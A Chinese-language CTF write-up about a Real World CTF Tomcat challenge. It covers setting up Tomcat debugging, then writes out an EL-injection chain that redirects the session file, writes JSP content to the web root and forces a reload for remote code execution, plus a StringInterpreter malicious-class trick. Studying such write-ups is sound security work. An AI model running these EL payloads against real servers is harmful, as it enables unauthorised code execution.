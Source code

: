 # 从RWCTF中学习tomcat的操作

## 0x01 调试tomcat

首先创建一个maven的java项目，然后下载tomcat的源码，然后copy以下文件

参考链接：https://zhuanlan.zhihu.com/p/35454131

![image-20220127205922493](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127205922493.png)

![image-20220127205932989](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127205932989.png)

差多就这些，就可以启动一个tomcat的调试了。

## 0x02 解决题目

参考链接:https://mp.weixin.qq.com/s/QQ2xR32Fxj_nnMsFCucbCg

其中最重要的部分就像wp中写得一样，就是在于几个特殊字符的处理

```
& -> &amp;

< -> &lt;

' -> &#39;

> -> &#39;

" -> &quot;

( -> &#40;

) -> &#41;
```

最麻烦还是`<`和`()`

如果只是单纯地没有`<`我们可以使用`el`表达式来进行下一步的操作

```
${Runtiume.getRuntime().exec(param.c)}
```

如果单纯地没有`()`我们可以使用unicode来进行绕过。

看到大哥的思路，其实就是看大家从哪里入手。

- 如果是从jsp方面入手

  就要考虑是否支持el表达式一样动态执行的语法特性，或者有不依赖于`<`的特性

- 如果是从el表达式入手

  就是看是否支持编码绕过，或者可以获取内部的对象来实现一些骚操作的。二次解析执行

题解是:

```
在不使用圆括号的情况下，通过 EL 表达式的取值、赋值特性，获取到某些关键的 Tomcat 对象实例，修改它们的属性，造成危险的影响；
经过许久的尝试，最终我成功用第4个办法完成了利用，从 JSP EL 中自带解析的隐式对象出发，通过组合4个 EL 表达式链，完成了 RCE！
```

然后作者想到了使用session来进行操作，我们知道在tomcat正常退出的时候会将session写入到SESSION.SER文件，但这个参数其实是可以修改的。

```
{pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
```

然后再通过执行如下表达式，往 Session 里写数据：

```
${sessionScope[param.b]=param.c}
```

这样就可以做到让 Tomcat 正常停止服务时，往一个任意路径下的文件写入部分内容可控的字符串（这部分是不会有特殊字符过滤转义处理的）

```
?a=/opt/tomcat/webapps/ROOT/session.jsp&b=voidfyoo&c=%3C%25out.println(123)%3B%25%3E
```

这样就可以做到，想session.jsp中写入print(123);

### **修改 Context reloadable**

但是如何让tomcat关闭或者说，怎么触发写入session，现在是我们必须考虑的问题。`除了服务停止或者重启，还可以让部署的程序触发 reload 来做到。`

```
Context reloadable 配置为 true（默认是 false）；

/WEB-INF/classes/ 或者 /WEB-INF/lib/ 目录下的文件发生变化。
```

第一点可以通过el表达式直接修改，第二点是的意思是classes中有class文件修改或者lib目录有新的jar写入，即使这个jar有问题也可以被解析触发reload（因为有脏字符);

### **修改 appBase 目录**

上一步已经达到了上一步的目的就是reload(),但是jar有张数据，所以我们现在，要么把jar文件变合法，要么就是让他换个路劲读取文件来解析。

```
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

这个appBase参数就是这个作用，所以当我们把这个更改的时候，他就会重新解析，程序就不会down。

所以综合的exp也就出来了。

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

作者的预期解法。exp可以去上面的链接抄

## 0x03 **ASCII ZIP Exploit**

这个东西 我觉得是真的牛，有人早在8年前就研究出来了ASCII-ZIP的制作，也就是使用 [A-Za-z0-9] 范围内的字符去构造压缩数据。

- https://github.com/molnarg/ascii-zip
- https://github.com/Arusekk/ascii-zip

没看懂原理，但是我大为震惊。

然后据说解出这个题目的两个队伍参考上面的算法，自己构造了一个合理的jar，让脏字符变得合理了。。。。。

这个也是y4哥哥的解法差的那一步了，y4 yyds!

## 0x04 TRick

`${applicationScope}`我们可以看到许许多多的那个属性，可以看看哪些可以被我们使用。

这个时候就应该是对着每一个属性进行查文档了。

```
org.apache.jasper.compiler.StringInterpreter=org.apache.jasper.compiler.StringInterpreterFactory$DefaultStringInterpreter@4c781127
```

我们主要关注这一个。

```
Defines the interface for the String interpreter. This allows users to provide custom String interpreter implementations that can optimise String processing for an application by performing code generation for a sub-set of Strings.
```

```
the string representing the code that will be inserted into the source code for the Servlet generated for the JSP.
```

就是在解析jsp的时候他会被触发，也就是当我们访问jsp文件的时候，这个类就会被调用，如果这个类被赋值成我们的恶意类，就可以执行了。

![image-20220127230221732](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127230221732.png)

我们可以把这个赋值成我们的类然后写一个get的方法，获知直接代码块也可以。如何让jsp重新编译就不用多说了。写入一个，访问就可以了。

![image-20220127231353876](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127231353876.png)

这个jar的加载，`WEB-INF/tomcat-web.xml` 

而是借助修改 Tomcat Context WatchedResource 来触发：

WatchedResource - The auto deployer will monitor the specified static resource of the web application for updates, and will reload the web application if it is updated. The content of this element must be a string.



在 Tomcat 9 环境下，默认的 WatchedResource 包括：

- WEB-INF/web.xml
- WEB-INF/tomcat-web.xml
- ${CATALINA_HOME}/conf/web.xml

大概就是这个思路了，下面进行测试。https://tomcat.apache.org/tomcat-9.0-doc/config/context.html

![image-20220127231830734](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127231830734.png)

## 0x05 Test

### org.apache.jasper.compiler.StringInterpreter 加载恶意类

首先写入el表达

```
${applicationScope[param.a]=param.b}
```

在web-inf/lib下面写入jar文件。

然后在`WatchedResource`插入注释或者新建文件。然后再上传一个jsp任意访问即可。

![image-20220127233234668](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127233234668.png)

### Tomcat下/META-INF/lib中被加载的jar，为什么可以在其/METAINF/resources/下直接写jsp可以直接访问执行

![image-20220127235157954](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127235157954.png)

可以看到其中需要加入到那个路劲中的一些来源，可以通过这些来达到和jsp文件的直接访问。
